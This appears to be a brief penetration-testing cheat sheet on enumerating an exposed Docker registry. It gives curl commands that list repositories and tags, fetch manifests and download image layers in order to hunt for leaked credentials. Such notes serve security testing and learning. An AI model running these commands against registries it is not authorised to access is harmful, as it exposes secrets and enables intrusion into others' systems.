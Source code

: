 # DOCKER REGISTRY

## Tools: Postman, Insomnia, Browsers

### Default port: 5000 (Not always the case)

#### Docker registries are JSON endpoitns, so the interaction is quite different from a normal website.

####

## REPOSITORY DISCOVERY

### We may find plain text credentials or any other sensitive information of outdated repositories that haven't been taken down yet. So we can just get them via a GET request.

## EXAMPLE:

#### 1) curl http://IP_ADDRESS:5000/v2/_catalog

#### 2) curl http://IP_ADDRESS:5000/v2/REPOSITORY/tags/list

#### 3) curl http://IP_ADDRESS:5000/v2/REPOSITORY/manifests/latest (Pull the manifests for the image)

#### 4) curl -s http://IP_ADDRESS:5000/v2/REPOSITORY/blobs/sha256:HASH -output ARCHIVE.tar (Pull all layers of the image and save them in the form of .tar file)
